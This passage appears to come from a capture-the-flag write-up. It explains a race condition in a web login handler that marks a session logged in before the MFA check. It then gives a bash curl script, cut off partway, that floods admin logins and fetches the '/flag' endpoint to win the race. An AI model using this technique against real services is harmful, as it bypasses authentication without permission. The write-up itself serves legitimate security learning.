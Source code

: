 We have to call the `/flag` endpoint while being `admin` user to retrieve the challenge flag!

## Searching...

Let's take a look on how the login is done.

```python
def POST(self):
  f = login_Form()
  if not f.validates():
      session.kill()
      return render.index(f)
  i = web.input()
  if not check_user_creds(i.username, i.password):
      session.kill()
      raise web.seeother('/')
  else:
      session.loggedIn = True
      session.username = i.username
      session._save()

  if check_mfa(session.get("username", None)):
      session.doMFA = True
      session.tokenMFA = hashlib.md5(bcrypt.hashpw(str(secrets.randbits(random.randint(40,65))).encode(),bcrypt.gensalt(14))).hexdigest()
      session.loggedIn = False
      session._save()
      raise web.seeother("/mfa")
```

See anything? Well it took me some time but there's a race condition in there.

As you can see, once the user credentials are checked, it immediately sets the `loggedIn` variable to `True` **even if the MFA is not checked yet**.

Once the `check_mfa` function is done and tells the script that this user indeed needs MFA verification, it turns back `loggedIn` to `False`.

That would mean if we can perform a request between those two instructions, we could potentially call the `/flag` endpoint!

## Attack

```bash
#!/bin/bash

BASE='http://52.59.124.14:5010'
curl -s -c cookies.txt "$BASE/" >/dev/null

login_once() {
  curl -s -b cookies.txt -c cookies.txt \
       -d 'username=admin&password=admin&submit=' \
       -X POST "$BASE/" >/dev/null
}

get_flag_once() {
  curl -s -L -b cookies.txt "$BASE/flag"
}

for round in $(seq 1 10); do
  # fire 5 admin login requests in background
  for i in $(seq 1 5); do
    login_once &
  done

  # immediately attempt to fetch the flag multiple times
```